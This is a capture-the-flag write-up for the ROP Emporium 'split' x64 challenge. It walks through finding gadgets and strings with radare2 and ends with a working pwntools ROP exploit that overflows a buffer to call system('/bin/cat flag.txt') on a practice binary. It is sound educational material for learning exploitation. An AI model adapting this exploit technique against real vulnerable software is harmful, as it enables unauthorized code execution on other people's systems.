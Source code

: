 ```yaml
---
layout: post
title:  "ROP Emporium split Writeup (x64)"
date:   2024-06-01 13:15:45 -0400
categories: rop-emporium split
tags: rop-emporium split x64 writeup buffer-overflow rop reverse-engineering 64-bit
---
```

## Introduction
[ROP Emporium](https://ropemporium.com/index.html){:target="_blank"}{:rel="noopener noreferrer"}
provides a series of challenges to learn and practice
Return Oriented Programming (ROP). This is the
[second challenge](https://ropemporium.com/challenge/split.html){:target="_blank"}{:rel="noopener noreferrer"}
of eight.

> This is what a hint will look like!
{: .prompt-tip }

### Goal
According to the
[challenge page](https://ropemporium.com/challenge/split.html){:target="_blank"}{:rel="noopener noreferrer"}
our goal is to call `system` with the argument `/bin/cat flag.txt`.
This string is also present in the binary!

### x64 Calling Convention
We know from the first challenge we need to set the
instruction pointer to a function address in order to
call that function. But how do we pass arguments to
those functions?

In `x64` arguments are passed through specific registers.
The first three arguments correspond to the `rdi`, `rsi`,
and `rdx` registers respectively. 
[This x64 cheat sheet](https://ropemporium.com/challenge/split.html){:target="_blank"}{:rel="noopener noreferrer"}
can help if you want to learn more about `x64`.

## Exploit Crafting
The offset for `x64` challenges will be `40 bytes`. If
you want to know how to get this value see the
[ret2win writeup]({% post_url 2024-05-31-rop-emporium-ret2win-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}

### Function Address
> Is there an address where `system()` is called?
{: .prompt-tip }

Using `radare2` we can analyze a binary by
running `aaa`. To list functions with their
addresses we can run `afl`
![ret2win-addr](/images/split/x64-addr.png)

Let's investigate `usefulFunction`. We can view
the assembly with the following commands

```
s sym.usefulFunction
V
p
```

![useful-asm](/images/split/x64-useful-asm.png)

This function seems to `call` the `system()` function
with the argument `/bin/ls`. We want to change the
argument but let's take note of the `call` address
`0x0040074b`

### Setting Arguments
> Find a gadget which sets the `rdi` register
{: .prompt-tip }
According to the
[x64 calling convention](https://ropemporium.com/challenge/split.html){:target="_blank"}{:rel="noopener noreferrer"},
a function's first argument is passed through the
`rdi` register. In order to set this value we need
to find a `pop rdi` gadget which will take a value
off of the stack and place it into `rdi`

We can search for ROP gadgets in `radare2` with the `/R`
command

```
/R pop rdi
```
![rdi-addr](/images/split/x64-rdi-addr.png)

The address of our gadget is `0x004007c3`. Once we call
this gadget, we'll need to pass the address of the
string we want to execute onto the stack.

### String Address
> The string `/bin/cat flag.txt` exists in the binary
{: .prompt-tip }
Using `radare2` again we can search for case insensitive
strings with the `/i` command. So to find the address
of `/bin/cat flag.txt` we run

```
/i /bin/cat flag.txt
```
![cat-addr](/images/split/x64-cat-addr.png)

Awesome the address of the string is `0x00601060`

## Exploit
Now we have everything we need to build the exploit
```python
#!/bin/python3
from pwn import *

# useful addresses
str_addr = 0x00601060
sys_addr = 0x0040074b
pop_rdi_addr = 0x004007c3

# create payload
payload = b'A' * 40
# set arg1 (pop rdi)
payload += p64(pop_rdi_addr)
payload += p64(str_addr)
# call sys
payload += p64(sys_addr)

# send payload + receive flag
io = process('./split')
io.recv()
io.sendline(payload)
print(io.recvline())
success(io.recvline())
```
![flag](/images/split/x64-flag.png)

## Conclusion
This challenge takes things a step further than
just calling an arbitrary function by introducting the 
ability to set arbitrary arguments for that function.

[Previous Challenge (ret2win)]({% post_url 2024-05-31-rop-emporium-ret2win-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}

[Next Challenge (callme)]({% post_url 2024-06-02-rop-emporium-callme-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}

[split x86]({% post_url 2024-06-01-rop-emporium-split-x86%}){:target="_blank"}{:rel="noopener noreferrer"}

